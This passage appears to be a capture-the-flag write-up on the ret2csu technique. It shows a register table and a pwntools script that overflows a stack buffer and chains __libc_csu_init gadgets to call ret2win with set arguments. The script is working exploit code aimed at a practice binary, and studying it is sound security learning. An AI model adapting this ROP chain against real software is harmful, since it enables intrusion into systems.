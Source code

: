 Now that we have understood the control flow of `__libc_csu_init()`, we now know what values we should be popped into the registers before we move `r15` and `r14` to `rdx` to `rsi` respectively.

| Register | Value | Remarks |
| - | - | - |
| rbx | 0 | Set this to 0 to make the call instruction less complicated. |
| rbp | 1 | `rbp` must be greater than `rbx` by 1 to skip the `jne 0x400680 <__libc_csu_init+64>` instruction. |
| r12 | 0x600e48 | When `r12` is set to this value, the `call [r12+rbx*8]` instruction will call `[0x600e48] -> 0x4006b4 -> _fini()`. |
| r13 | b"anything" | Any random 8-byte value will do since we are not going to use `r13`. |
| r14 | 0xcafebabecafebabe | Second argument to be moved into `rsi`. |
| r15 | 0xd00df00dd00df00d | Third argument to be moved into `rdx`. |

Here's the script that should hopefully yield us our flag:

```python
from pwn import *
...
RET = p64(0x4004e6) # ret
POPRDI = p64(0x4006a3) # pop rdi ; ret
# mov rdx, r15 ; mov rsi, r14 ; mov edi, r13d ; call qword [r12 + rbx*8] ;
# add rbx, 1 ; cmp rbp, rbx ; jne 0x400680 ; add rsp, 8 ; pop rbx ; pop rbp ;
# pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
MOVRDXR15_MOVRSIR14 = p64(0x400680)
# pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15
POPRBXRBPR12R13R14R15 = p64(0x40069a)
ARG0 = 0xdeadbeefdeadbeef
ARG1 = 0xcafebabecafebabe
ARG2 = 0xd00df00dd00df00d
DATA = 0x601028
POINTER_TO_FINI = p64(0x600e48) # *0x600e48 == 0x00000000_004006b4 <- _fini (does nothing but ret)
RET2WIN = 0x400510
...
attack = b"A"*0x28 # buffer overflow

# make sure r12 + rbx*8 points to somewhere that returns
# make sure rbx+1 == rbp
# make sure r14 is ARG1 and r15 is ARG2
attack += POPRBXRBPR12R13R14R15 # pop necessary values into the 6 registers.
attack += p64(0) # rbx
attack += p64(1) # rbp
attack += POINTER_TO_FINI # r12
attack += b"anything" # r13
attack += p64(ARG1) # r14
attack += p64(ARG2) # r15

# mov r15 into rdx and r14 into rsi
# then let the gadget pop 7 8-byte values
attack += MOVRDXR15_MOVRSIR14 + b"."*(7*8)

attack += POPRDI + p64(ARG0) # set rdi to the first argument

attack += RET + p64(RET2WIN) # call ret2win with rdi, rsi and rdx with the correct arguments

io.sendline(attack)
...
```
